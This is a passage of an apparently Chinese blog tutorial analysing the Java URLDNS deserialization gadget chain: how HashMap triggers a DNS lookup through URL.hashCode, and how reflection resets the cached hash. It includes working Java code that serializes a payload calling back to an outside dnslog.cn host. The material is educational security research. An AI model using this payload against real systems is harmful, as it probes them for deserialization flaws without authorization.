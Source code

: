 当 URL 对象刚开始放置在一个 HashMap 中时，通过调用 `put` 方法，`HashMap.hash` 方法将会被调用。

![](https://i.imgur.com/O7VU8RF.png)




我们传入的 key 是一个 URL 类的对象，所以调用的实际上是 URL 类的 `hashCode()` 方法



![](https://i.imgur.com/s1TsX7C.png)

同时从从上图可以看到如果 `hashCode` 不等于 -1，直接返回 hashCode 变量。那这就会有一个问题，那就是我们传入的 URL 对象其 hashCode 默认值是等于 -1 的。其将 hashCode 值存储在一个不是 transient 的实例变量中，如下图
![](https://i.imgur.com/SsUOSUl.png)


所以在这里会直接调用 `handler.hashCode()` 方法，如下图
![](https://i.imgur.com/sJUskc3.png)


那这样就会发起一个 DNS 查询请求，也就是说我们在序列化之前就已经发起了一个 DNS 查询请求，这就会和我们反序列化时发起的 DNS 请求弄混，所以我们要避免这种情况。那很自然的思路就是将以上的 URL 类对象的 `hashCode` 改成不是 -1 ，这样就会在调用 `hashCode()` 方法时直接返回，而不是发起一个 DNS 查询请求。那如何做到这一点呢？没错就是通过**反射**！

我们可以通过反射将 URL 类对象的 `hashCode` 属性值改为不等于 -1 ，然后调用 `HashMap.put()` 方法放入 这个 URL 类对象。之后再通过反射将 URL 类对象的 `hashCode` 属性值再改回 -1 ，然后进行序列化即可。最后当我们进行反序列化时，根据前面的分析，此时就会自动调用 HashMap 类的 `readObject` 方法并发起一个 DNS 查询请求。

以下是代码：

```java=
public class SerializationTest {
    public static void serialize(Object obj) throws IOException{
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }

    public static void main(String[] args) throws Exception{
        HashMap<URL,Integer> hashmap = new HashMap<URL,Integer>();
        URL url = new URL("http://san59s.dnslog.cn");
        Class c= url.getClass();
        Field hashcodefield = c.getDeclaredField("hashCode");
        hashcodefield.setAccessible(true);
        hashcodefield.set(url,1234);
        hashmap.put(url,1);

        hashcodefield.set(url,-1);

        serialize(hashmap);


    }
}
```

代码中有一个有趣的地方，那就是将 URL 类的一个对象 url 的 hashCode 改回 -1 时是直接调用前面得到的 Field 对象实例来进行的，而不是通过 HashMap 的实例对象 hashmap。根据直觉，我们都已经通过 hashmap 的 put 方法将 url 放入进去，那么再修改 url 的值似乎不应该影响到 hashmap。
